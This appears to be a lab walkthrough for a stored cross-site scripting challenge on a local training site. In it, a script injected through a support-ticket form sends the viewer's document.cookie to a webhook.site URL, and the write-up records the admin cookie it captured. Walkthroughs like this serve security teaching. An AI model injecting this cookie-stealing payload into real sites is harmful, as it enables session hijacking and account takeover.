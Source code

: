 
# 🛡️ Lab 3: Cross-Site Scripting (XSS) Challenge Walkthrough

---

## 🖥️ Setup

- **Environment:** Utilize the Firefox container.
- **Tabs Opened:**
  1. `http://localhost/labs/x0x03.php` 📄
  2. `http://localhost/labs/x0x03_admin.php` 📄

---

## 🚀 Steps

### 1️⃣ Submitting a Support Ticket
- **Portal Description:**  
  The page invites you to submit a support ticket through a form, which promises prompt attention by the team. 🆘
- **Form Fields:**  
  Includes fields to enter a name and ticket description. 📝
- **Injected Script:**
  ```html
  <script> 
  var i = new Image; 
  i.src = "https://webhook.site/08c29163-c569-4f1c-b964-503ad450e860/?" + document.cookie;
  </script>
  ```
- **Purpose:**  
  This script creates a new image object and sets its `src` to a webhook URL, appending the document's cookie data as a query parameter. 🍪➡️🌐

---

### 2️⃣ Understanding Webhook.site
- **Description:**  
  Webhook.site allows you to test HTTP webhooks by capturing the requests sent to a unique URL.
- **Usage in XSS:**  
  Used to capture cookies transmitted via XSS. The appended `/?` ensures that the document's cookie is sent to the webhook URL.

---

### 3️⃣ Observing the Outcome
- **Admin Tab Check:**  
  After submitting the script as a ticket, switch to the admin tab (`x0x03_admin.php`). 🔄
- **Results:**  
  The submitted ticket appears empty, but checking the configured Webhook.site URL shows that an admin cookie has been successfully captured. 🎫🔍
- **Cookie Capture:**  
  Verifying in the browser’s console displays the captured cookie:
  ```javascript
  document.cookie
  // Output:
  "admin_cookie=5ac5355b84894ede056ab81b324c4675"
  ```

---

## 🎯 Conclusion
- Successfully exploited an admin cookie using an XSS vulnerability by capturing it with a webhook and verifying it in the browser's console. ✅🍪
- **Key Insight:**  
  The browser automatically executes the script upon setting the `src` property of an Image object, making a network request to the given URL without requiring explicit calls or server-side execution.

---
